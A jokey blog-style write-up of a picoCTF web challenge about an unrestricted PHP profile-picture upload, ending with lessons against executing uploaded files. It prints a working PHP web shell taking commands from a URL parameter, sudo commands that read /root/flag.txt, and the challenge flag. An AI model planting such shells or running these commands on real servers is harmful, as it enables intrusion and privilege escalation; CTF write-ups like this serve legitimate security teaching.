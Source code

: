 ```yaml
---
title: 'PicoCTF Writeup #482'
date: 2025-08-20T10:06:40+07:00
draft: false
description: ''
tags: ['ctf']
---
```



## Hacking Profile Pictures Like It’s 2005 (picoCTF Web Exploit Writeup)

So, I tried another picoCTF challenge and this one was basically:

👨‍💻 *“A developer added profile picture uploads. What could possibly go wrong?”*

If you’ve ever touched PHP (I’m sorry) you already know the answer: **literally everything**.

The challenge: [Standard Pizzas](https://play.picoctf.org/practice/challenge/482) 🍕



## Upload Feature? More Like Upload *Malware*

The site lets you upload an image and then proudly tells you where it lives:

```
The file duck.jpeg has been uploaded 
Path: uploads/duck.jpeg
```

As soon as I saw that, my brain went:

👉 “Wait… you’re telling me I can upload **any file** and then run it directly?”

This is basically the cybersecurity equivalent of putting the house keys under the doormat.



## Congratulations, You Played Yourself

So I uploaded this masterpiece called `script.php`:

```php
<?php
$result = shell_exec("pwd");
echo $result;
?>
```

Then I visited `/uploads/script.php` and the site politely told me:

```
/var/www/html/uploads
```

💥 RCE achieved. PHP once again proving it’s not a bug, it’s a lifestyle.



## PHP Webshell as a Service™

One command was cute, but I wanted **full control**.
So I made a tiny upgrade:

```php
<?php
$command = $_GET["c"];
echo shell_exec($command);
?>
```

Now I could just run commands directly in the URL:

```
/uploads/script.php?c=ls
```

At this point I felt like a 90s movie hacker typing “access mainframe” — except it actually worked.



## Dear Root, I’m in Your Walls

The challenge said the flag was hiding in `/root`.
No problem. Let’s snoop:

```
/uploads/script.php?c=sudo -l
```

Server: “Yeah, you can sudo.”
Me: “Say no more.”

```
/uploads/script.php?c=sudo ls /root
```

Output:

```
flag.txt
```

Time for the final payload:

```
/uploads/script.php?c=sudo cat /root/flag.txt
```

And there it was:

```
picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}
```



## PHP + Uploads = Chaos.exe

What did we learn, kids?

* If you let users upload arbitrary files and run them, you’ve basically created **free hacker hosting**.
* File extensions are lies. Never trust them.
* PHP with `shell_exec` is like giving a toddler a flamethrower.
* This challenge was basically an *Any% speedrun exploit*.



## Final Thoughts

This challenge was a nostalgia trip — straight back to the early 2000s when every site was PHP, every upload folder was writable, and every script kiddie had an edgy handle like “xXhaxor69Xx”.

So yeah. Don’t let “profile pictures” execute shell commands. Unless you want hackers to order root access with their pizza. 🍕💻



> Flag: **picoCTF{wh47\_c4n\_u\_d0\_wPHP\_a4ca6ea0}**

